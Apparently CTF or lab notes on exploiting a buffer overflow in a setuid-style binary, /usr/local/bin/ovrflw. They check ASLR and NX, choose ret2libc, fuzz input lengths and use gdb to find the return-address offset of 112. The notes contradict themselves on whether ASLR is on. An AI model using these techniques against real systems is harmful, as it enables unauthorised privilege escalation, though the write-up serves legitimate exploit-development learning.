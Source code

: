 

## /usr/local/bin/ovrflw

cat   /proc/sys/kernel/randomize_va_space 
0


ASLR: cat /proc/sys/kernel/va_randomize_space => 2 ALSR on
NX bit: readelf -W -l <bin> 2>/dev/null | grep ‘GNU_STACK’ | grep -q ‘RWE’ 
Stack not executable

=> Ret2LibC


```
$ for i in `seq 100 120`; do echo $i; /usr/local/bin/ovrflw $(python -c "print 'A'*$i"); done;
         
100
101
102
103
104
105
106
107
108
109
110
111
112
Segmentation fault (core dumped)
113
Segmentation fault (core dumped)
114
```
```
for i in `seq 110 120`; do echo $i; gdb -batch -ex='run' -args /usr/local/bin/ovrflw $(python -c "print 'A'*$i+'BBBB'"); done; 
$ for i in `seq 110 120`; do echo $i; gdb -batch -ex='run' -args /usr/local/bin/ovrflw $(python -c "print 'A'*$i+'BBBB'"); done
<'run' -args /usr/local/bin/ovrflw $(python -c "print 'A'*$i+'BBBB'"); done  
110

Program received signal SIGSEGV, Segmentation fault.
0xb7004242 in ?? ()
111

Program received signal SIGSEGV, Segmentation fault.
0x00424242 in ?? ()
112

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
113

Program received signal SIGSEGV, Segmentation fault.
0x42424241 in ?? ()
114

```
Offset = 112
